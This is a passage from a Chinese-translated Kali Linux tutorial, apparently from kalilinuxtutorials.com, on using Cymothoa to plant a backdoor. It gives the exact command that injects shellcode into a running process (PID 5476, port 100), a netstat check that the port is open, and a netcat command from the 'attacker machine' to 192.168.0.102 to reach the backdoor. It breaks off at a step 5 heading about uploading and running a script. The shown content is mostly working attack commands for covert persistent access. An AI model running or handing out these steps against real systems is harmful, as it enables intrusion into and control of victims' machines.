 现在用 cymothoa 感染这个过程。

```
syntax: ./cymothoa -p <pid> -s <shellcode number> -y <listening port>
```

```
command: ./cymothoa -p 5476 -s 1 -y 100
```

*提示:记得检查监听端口(-y 选项)是否已经被使用。*

现在检查端口是否打开

```
command: netstat -l | grep 100<your port here>
```

[![cymothoa](img/e7ea3d1dbecf7ec7928012990548f796.png)](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa5/)

Infecting a process with Cymothoa

**步骤 4** : **从攻击者机器尝试 netcat 连接。**

在 Kali Linux 攻击者系统中打开一个新的终端&启动一个 netcat 连接到我们指定的端口

```
command: nc 192.168.0.102 100 <give your victim ip & port>
```

[![cymothoa](img/4664dd11f50a8ab432a590d1cac2304b.png)](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa12/)

Netcat Connection to Cymothoa Backdoor

你有…！

**第五步** : **准备脚本，上传&设置执行。**
